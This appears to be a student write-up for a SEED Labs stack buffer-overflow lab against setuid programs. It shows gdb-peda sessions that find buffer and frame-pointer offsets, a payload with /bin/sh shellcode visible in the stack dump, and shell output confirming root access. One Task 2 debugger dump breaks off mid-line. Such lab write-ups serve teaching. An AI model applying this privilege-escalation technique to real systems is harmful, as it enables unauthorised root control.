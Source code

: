 # Answer in my observation

## Task 1
- Firstly, I debug the vulnerable program `stack-L1-dbg` with `gdb-peda` to find the address of `buffer` variable and `$ebp` register.

```
[04/05/24]seed@VM:~/.../code$ gdb stack-L1-dbg
gdb-peda$ b* bof
Breakpoint 1 at 0x12ad: file stack.c, line 16.
gdb-peda$ r
Starting program: /home/seed/bof_setuid/Labsetup/code/stack-L1-dbg 
Input size: 147
[----------------------------------registers-----------------------------------]
EAX: 0xffffcba8 --> 0x0 
EBX: 0x56558fb8 --> 0x3ec0 
ECX: 0x60 ('`')
EDX: 0xffffcf90 --> 0xf7fb4000 --> 0x1e6d6c 
ESI: 0xf7fb4000 --> 0x1e6d6c 
EDI: 0xf7fb4000 --> 0x1e6d6c 
EBP: 0xffffcf98 --> 0xffffd1c8 --> 0x0 
ESP: 0xffffcb8c --> 0x565563ee (<dummy_function+62>:	add    esp,0x10)
EIP: 0x565562ad (<bof>:	endbr32)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x565562a4 <frame_dummy+4>:	jmp    0x56556200 <register_tm_clones>
   0x565562a9 <__x86.get_pc_thunk.dx>:	mov    edx,DWORD PTR [esp]
   0x565562ac <__x86.get_pc_thunk.dx+3>:	ret    
=> 0x565562ad <bof>:	endbr32 
   0x565562b1 <bof+4>:	push   ebp
   0x565562b2 <bof+5>:	mov    ebp,esp
   0x565562b4 <bof+7>:	push   ebx
   0x565562b5 <bof+8>:	sub    esp,0x74
[------------------------------------stack-------------------------------------]
0000| 0xffffcb8c --> 0x565563ee (<dummy_function+62>:	add    esp,0x10)
0004| 0xffffcb90 --> 0xffffcfb3 ('A' <repeats 112 times>, "\004\314\377\377BBBB1\300Ph//shh/bin\211\343PS\211\341\061\322\061\300\260\v̀")
0008| 0xffffcb94 --> 0x0 
0012| 0xffffcb98 --> 0x3e8 
0016| 0xffffcb9c --> 0x565563c3 (<dummy_function+19>:	add    eax,0x2bf5)
0020| 0xffffcba0 --> 0x0 
0024| 0xffffcba4 --> 0x0 
0028| 0xffffcba8 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, bof (
    str=0xffffcfb3 'A' <repeats 112 times>, "\004\314\377\377BBBB1\300Ph//shh/bin\211\343PS\211\341\061\322\061\300\260\v̀") at stack.c:16
16	{
gdb-peda$ next
[----------------------------------registers-----------------------------------]
EAX: 0x56558fb8 --> 0x3ec0 
EBX: 0x56558fb8 --> 0x3ec0 
ECX: 0x60 ('`')
EDX: 0xffffcf90 --> 0xf7fb4000 --> 0x1e6d6c 
ESI: 0xf7fb4000 --> 0x1e6d6c 
EDI: 0xf7fb4000 --> 0x1e6d6c 
EBP: 0xffffcb88 --> 0xffffcf98 --> 0xffffd1c8 --> 0x0 
ESP: 0xffffcb10 ("1pUV\244\317\377\377\220\325\377\367\340\263\374", <incomplete sequence \367>)
EIP: 0x565562c2 (<bof+21>:	sub    esp,0x8)
EFLAGS: 0x216 (carry PARITY ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x565562b5 <bof+8>:	sub    esp,0x74
   0x565562b8 <bof+11>:	call   0x565563f7 <__x86.get_pc_thunk.ax>
   0x565562bd <bof+16>:	add    eax,0x2cfb
=> 0x565562c2 <bof+21>:	sub    esp,0x8
   0x565562c5 <bof+24>:	push   DWORD PTR [ebp+0x8]
   0x565562c8 <bof+27>:	lea    edx,[ebp-0x6c]
   0x565562cb <bof+30>:	push   edx
   0x565562cc <bof+31>:	mov    ebx,eax
[------------------------------------stack-------------------------------------]
0000| 0xffffcb10 ("1pUV\244\317\377\377\220\325\377\367\340\263\374", <incomplete sequence \367>)
0004| 0xffffcb14 --> 0xffffcfa4 --> 0x93 
0008| 0xffffcb18 --> 0xf7ffd590 --> 0xf7fd1000 --> 0x464c457f 
0012| 0xffffcb1c --> 0xf7fcb3e0 --> 0xf7ffd990 --> 0x56555000 --> 0x464c457f 
0016| 0xffffcb20 --> 0x0 
0020| 0xffffcb24 --> 0x0 
0024| 0xffffcb28 --> 0x0 
0028| 0xffffcb2c --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
20	    strcpy(buffer, str);
gdb-peda$ p $ebp
$1 = (void *) 0xffffcb88
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffcb1c
```

- However, when compiling the vulnerable program `stack-L1` with `gdb-peda`, I can only find address of `$ebp` register, it seems that the address of `$ebp` register in these files are different.

```
[04/05/24]seed@VM:~/.../code$ gdb stack-L1
[...]
gdb-peda$ p $ebp
$1 = (void *) 0xffffcb98
gdb-peda$ p &buffer
No symbol table is loaded.  Use the "file" command.
```

- It can be seen that the address of `buffer` variable is `$ebp - 0x6c`, which means we will need ```108 bytes buffer + 4 bytes padding``` to reach to address of return address.
- Because `gdb` has pushed some environment data into the stack before running the debugged program, the ACTUAL frame pointer value will be larger, so I will jump to the address larger than `$ebp + 8`.
- After testing all possible value, I see that we can jump to `$ebp + 0x6c` to get the shell as `root`.

```
[04/05/24]seed@VM:~/.../code$ ./stack-L1
Input size: 147
# id                                                                           
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
# whoami                                                                       
root
```

## Task 2
- Because I can still use `gdb`, therefore I will create 300 size pattern and find which position that in `$ebp` register.

```
[04/06/24]seed@VM:~/.../code$ gdb -q stack-L2
/opt/gdbpeda/lib/shellcode.py:24: SyntaxWarning: "is" with a literal. Did you mean "=="?
  if sys.version_info.major is 3:
/opt/gdbpeda/lib/shellcode.py:379: SyntaxWarning: "is" with a literal. Did you mean "=="?
  if pyversion is 3:
Reading symbols from stack-L2...
(No debugging symbols found in stack-L2)
gdb-peda$ b* bof
Breakpoint 1 at 0x12ad
gdb-peda$ r
Starting program: /home/seed/bof_setuid/Labsetup/code/stack-L2 
Input size: 1
[----------------------------------registers-----------------------------------]
EAX: 0xffffcbb8 --> 0x0 
EBX: 0x56558fb8 --> 0x3ec0 
ECX: 0x60 ('`')
EDX: 0xffffcfa0 --> 0xf7fb4000 --> 0x1e6d6c 
ESI: 0xf7fb4000 --> 0x1e6d6c 
EDI: 0xf7fb4000 --> 0x1e6d6c 
EBP: 0xffffcfa8 --> 0xffffd1d8 --> 0x0 
ESP: 0xffffcb9c --> 0x565563f4 (<dummy_function+62>:	add    esp,0x10)
EIP: 0x565562ad (<bof>:	endbr32)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x565562a4 <frame_dummy+4>:	jmp    0x56556200 <register_tm_clones>
   0x565562a9 <__x86.get_pc_thunk.dx>:	mov    edx,DWORD PTR [esp]
   0x565562ac <__x86.get_pc_thunk.dx+3>:	ret    
=> 0x565562ad <bof>:	endbr32 
   0x565562b1 <bof+4>:	push   ebp
   0x565562b2 <bof+5>:	mov    ebp,esp
   0x565562b4 <bof+7>:	push   ebx
   0x565562b5 <bof+8>:	sub    esp,0xa4
[------------------------------------stack-------------------------------------]
0000| 0xffffcb9c --> 0x565563f4 (<dummy_function+62>:	add    esp,0x10)
0004| 0xffffcba0 --> 0xffffcf1
- When running the program `a32.out` and `a64.out` with `setuid(0)`, we are running as the `root` user.

```
[04/06/24]seed@VM:~/.../shellcode$ make setuid
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c
sudo chown root a32.out a64.out
sudo chmod 4755 a32.out a64.out
[04/06/24]seed@VM:~/.../shellcode$ ./a
a32.out  a64.out  
[04/06/24]seed@VM:~/.../shellcode$ ./a32.out 
# id                                                                           
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
# whoami                                                                       
root
# exit                                                                         
[04/06/24]seed@VM:~/.../shellcode$ ./a64.out 
# whoami                                                                       
root
# id                                                                           
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),42

- Before adding `setuid(0)`
```
[04/06/24]seed@VM:~/.../code$ ./stack-L1
Input size: 147
$ id
uid=1000(seed) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
$ whoami
seed
$ exit
```

- After adding `setuid(0)`
```
[04/06/24]seed@VM:~/.../code$ ./stack-L1
Input size: 155
# id
uid=0(root) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
# whoami
root
# exit
```
